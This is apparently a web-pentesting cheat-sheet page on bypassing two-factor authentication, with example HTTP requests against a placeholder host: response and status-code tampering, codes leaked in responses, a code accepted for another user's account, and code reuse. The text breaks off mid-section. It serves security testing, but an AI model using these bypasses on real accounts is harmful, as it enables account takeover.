 ```yaml
---
title: "Bypass"
draft: false
images: []
description: "Bypassing 2FA, 304, 403 and file upload filters"
lead: "Bypassing 2FA, 304, 403 and file upload filters"
menu:
  docs:
    parent: "Wapp"
weight: 100
toc: true
---
```


## 2FA
### Response manipulation
```
HTTP/1.1 404 Not Found
...
{"code": false}
​
-------------------------------
​
Change it to {"code": true}
```
### Status code manipulation
```
HTTP/1.1 404 Not Found
...
{"code": false}
​```
--------------------------------
​
Change it to HTTP/1.1 200 OK
```
### 2FA Code in Response
Always check the response!
```
HTTP/1.1 200 OK
...
{"email": "victim@gmail.com", "code": "101010"}
```
### Missing 2FA Code integrity validation, code for any user account can be used
```
POST /2fa/
Host: vuln.com
...
email=attacker@gmail.com&code=382923
```
```
POST /2fa/
Host: vuln.com
...
email=victim@gmail.com&code=382923
```
### 2FA code reusability, same code can be reused.
Enter code 000000
```
POST /2fa/
```